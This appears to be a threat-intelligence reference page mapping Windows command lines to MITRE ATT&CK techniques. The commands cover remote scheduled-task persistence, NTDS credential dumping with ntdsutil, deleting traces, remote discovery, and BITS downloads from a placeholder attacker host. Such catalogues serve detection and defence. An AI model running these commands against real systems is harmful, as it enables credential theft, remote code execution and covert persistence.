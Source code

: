 ```
schtasks /s <remote_host> /tn <task_name> /u <domain>\<username> /p <password> /create /ru system /sc
schtasks /create -s <remote> /tn <task_name> /tr <path_to_executable> /sc <schedule_type> /st <start_time>
```
<br>

Indicator Removal: Clear Persistence [[T1070.009](https://attack.mitre.org/techniques/T1070/009/)]

```
schtasks /s <remote_host> /tn one /u <domain>\<username> /p <password> /f /delete
```
<br>

OS Credential Dumping: NTDS [[T1003.003](https://attack.mitre.org/techniques/T1003/003/)]

```
wmic process call create "ntdsutil \"ac i ntds\" ifm \"create full <file_path>
wmic process call create "ntdsutil \"activate instance ntds\" ifm \"create full <file_path>
wmic process call create "cmd.exe /c ntdsutil \"ac i ntds\" ifm \"create full <file_path>
wmic process call create "cmd.exe /c mkdir <file_path> & ntdsutil \"ac i ntds\" ifm \"create full <file_path>
PowerShell ntdsutil.exe 'ac i ntds' 'ifm' 'create full С:\Windows\temp\<folder>' q q
PowerShell ntdsutil.exe 'activate instance ntds' 'ifm' 'create full С:\Windows\temp\<folder>' q q
```
<br>

Network Share Connection Removal [[T1070.005](https://attack.mitre.org/techniques/T1070/005/)]

```
net use * /delete /y
```
<br>

File and Directory Discovery [[T1083](https://attack.mitre.org/techniques/T1083/)]

```
echo list volume | diskpart
wmic /node:<REDACTED> /user:"<user>" /password:"<password>" logicaldisk get caption,description,drivetype,providername,volumename
Get-CimInstance win32_logicaldisk
```
<br>

BITS Jobs [[T1197](https://attack.mitre.org/techniques/T1197/)]

```
cmd.exe /c bitsadmin /transfer n hxxp[:]//<ip_address>:<port>/file.ext $public\Downloads\outfile.ext
PowerShell "Start-BitsTransfer -Source hxxp://<domain>/pathto/file.ext -Destination C:\\Users\\pathtofile\\file.ext -transfertype download"
```
<br>

System Services: Service Execution [[T1569.002](https://attack.mitre.org/techniques/T1569/002/)]

```
sc.exe \\TARGET start <service_name>
```
<br>

